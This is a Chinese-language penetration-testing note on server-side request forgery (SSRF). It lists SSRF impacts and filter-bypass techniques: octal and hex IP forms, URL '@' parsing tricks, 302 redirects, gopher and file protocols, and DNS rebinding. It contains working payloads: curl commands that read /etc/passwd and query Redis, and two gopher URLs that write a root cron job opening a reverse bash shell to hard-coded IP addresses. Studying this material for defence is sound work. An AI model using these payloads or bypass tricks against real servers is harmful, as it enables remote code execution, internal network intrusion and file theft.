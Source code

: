 SSRF
================================

漏洞危害
--------------------------------
- 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
- 攻击运行在内网或本地的应用程序（比如溢出）;
- 对内网Web应用进行指纹识别，通过访问默认文件实现;
- 攻击内外网的Web应用，主要是使用Get参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）;
- 利用File协议读取本地文件。


利用方式
--------------------------------
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例

::

    # dict protocol (操作Redis) 

    curl -vvv 'dict://127.0.0.1:6379/info' # file protocol (任意文件读取) 

    curl -vvv 'file:///etc/passwd' # gopher protocol (一键反弹Bash) 

    # * 注意: 链接使用单引号，避免$变量问题

    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a' 


过滤绕过
--------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：
::

    ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$

    ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

    ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

对于这种过滤我们可以采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址我们可以改写成：

::

    8进制格式：0300.0250.0.1

    16进制格式：0xC0.0xA8.0.1

    10进制整数格式：3232235521

    16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1


利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

http://www.baidu.com@192.168.0.1/

当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。


利用302跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用302跳转的方式来进行绕过。

(1) 在网络上存在一个很神奇的服务，http://xip.io 当我们访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。

(2) 由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，我们可以通过短地址的方式来绕过。经过测试发现新浪，百度的短地址服务并不支持IP模式，不过tinyurl.com所提供的短地址服务支持IP方式。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

(1) GOPHER协议：通过GOPHER我们在一个URL参数中构造Post或者Get请求，从而达到攻击内网应用的目的。例如我们可以使用GOPHER协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

(2) File协议：File协议主要用于访问本地计算机中的文件，我们可以通过类似file:///文件路径这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过file:///d:/1.txt 来访问D盘中1.txt的内容


DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就pass掉。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间查，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。


可能利用的协议
--------------------------------
- ftp、ftps （FTP爆破） 
- tftp（UDP协议扩展） 
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- rtsp - smb/smbs （连接SMB） 
- telnet 
- 连接SSH/Telnet 
- http、https - 内网服务探测 
- 网络服务探测 
- ShellShock命令执行 
- JBOSS远程Invoker war命令执行 
- Java调试接口命令执行 
- axis2-admin部署Server命令执行 
- Jenkins Scripts接口命令执行 
- Confluence SSRF 
- Struts2一堆命令执行 
- counchdb WEB API远程命令执行 
- mongodb SSRF 
- docker API远程命令执行 
- php_fpm/fastcgi 命令执行 
- tomcat命令执行 
- Elasticsearch引擎Groovy脚本命令执行 
- WebDav PUT上传任意文件 
- WebSphere Admin可部署war间接命令执行 
- Apache Hadoop远程命令执行 
- zentoPMS远程命令执行 
- HFS远程命令执行 
- glassfish任意文件读取和war文件部署间接命令执行


ref
--------------------------------
http://www.91ri.org/17111.html